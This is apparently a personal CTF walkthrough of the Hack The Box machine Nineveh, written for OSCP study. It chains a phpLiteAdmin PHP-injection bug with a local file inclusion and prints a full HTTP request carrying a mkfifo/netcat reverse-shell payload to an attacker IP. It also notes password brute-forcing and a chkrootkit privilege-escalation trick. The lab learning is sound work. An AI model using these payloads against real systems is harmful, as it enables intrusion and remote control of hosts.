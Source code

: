 # Nineveh Walkthrough
Name: Nineveh
Date:  
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- php://filter/convert.base64encode/resources= 
- Thinking about how to Chaining Exploits
- Different password lists although most of these CTFs are older and brute forcing logins is kind of frowned upon. It has still come up in PG boxes.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nikto find info.php
![](phpinfoinnikto.png)
There is also domain name found by nmap:
![](vhosts.png)

![](blogworxdb.png)

7.0.18-0ubuntu0.16.04.1  
OpenSSL 1.0.2g 1 Mar 2016
PCRE Library Version 8.38 2015-11-23
  
www-data user and group
/etc/php/7.0/apache2

SSL /TLS everything points towards a certificate attack. Man in the middling myself to exfiltrate data somehow.


![](comments.png)

- BIG FAIL!
Login page is NOT fixed! - Hydra reports all passwords work, usernames admin and amrois

admin
amrois

https://nineveh.htb/db/
![](phpliteadmin.png)
admin:admin - does not work

Also error with ssl cert...

## Exploit

![](multipleVulnsforphpliteadmin.png)

![](hydrathelitephpadmin.png)

![](shellinsqlite.png)

RCE requires [creds](https://www.exploit-db.com/exploits/24044), wso with `admin : password123`; this is a better explaination: [masood](https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC) ... [Multiple](https://www.exploit-db.com/exploits/39714) does not contain a file inclusion. Given that I had issues with hydra on the https page, trying the same password for admin did not work. Returning back to the previous login at /department/login.php. As this brute forcing of a login page is neither fun and is spoiling my learning I watched the Ippsec video for this part to check seeing I would just be brute forcing password lists. admin

![](lfiwearelookingfor.png)

![](lfibreak.png)

![](lfibreaktwo.png)

I am not a php person, went back to the [Ippsec video](https://www.youtube.com/watch?v=K9DKULxSBK4) after and hour of trying LFI and reviewing. I learnt about the `php://filter`, but also that I was suppose to assume from the ninevehNotes mispelt as same: "ninvehNotes" even though it would produce a "No Note selected" was that I need to rename my sql table to ninevehNotes.php.

![900](ninevehNotesninevehNotes.png)

Code execution! Then I failed for half an hour to make that work so something went wrong. And with time constraits I have it left it here.

I then returned complete this briefly summarising everything. I gained access to phpmyadmin page which you can make sqlite databases, which the version of phpmyadmin has vulnerablity for remote php injection. While on the /department/manage.php has a lfi where the `notes=` parameter can the be given an argument to a file that has to be ninevehNotes.x file due to filtering rules with php `include()`. Reviewing what I had done and notes instead of `$_REQUEST` I used `$_GET`. 

 `$_REQUEST` An associative array that by default contains the contents of [`$_GET`](https://www.php.net/manual/en/reserved.variables.get.php), [`$_POST`](https://www.php.net/manual/en/reserved.variables.post.php)  and [`$_COOKIE`](https://www.php.net/manual/en/reserved.variables.cookies.php). Whereas `$_GET` An associative array of variables passed to the current script via the URL parameters (aka. query string). Note that the array is not only populated for GET requests, but rather for all requests with a query string. I also put it in the default value as suggested by the github article. 

Lessons learnt
1. Swap test swapping the fields, do not give up
2. Chaining exploits note
	1. Server Language
	2. Exploit A does X
		1. It reads a file
			1. How  - not in the sense of permissions but - rules about what it can read
	3. Exploit B doex Y
		1. Injects Code - Server is vulnerable - the concern is more in how A gets to B
			1. Where -> LFI includes a file, there need a path.
	4. As A can interact with B, what elements of A are required to make B accessable
	5. Use of symbols FOR BOTH! 
3. Spelling mistakes are faceslap

![](spellmistakesarebad.png)

I did the best bash reverse shell

```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.109+33333+>/tmp/f+ HTTP/1.1
Host: 10.129.4.245
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=drnitsgevbtpi4e8kq5uc273b3
Connection: close

```

![](reverseshell.png)

![](rootlikechkrootkits.png)

I have covid and my stomach aches. I read about chkrootkit for pwk 103. It was all in front of me.depa
```bash
searchsploit chkrootkit
```

TL;DR:

chkrootkits will execute `/tmp/update` as the function slapper should be `/tmp/.update`
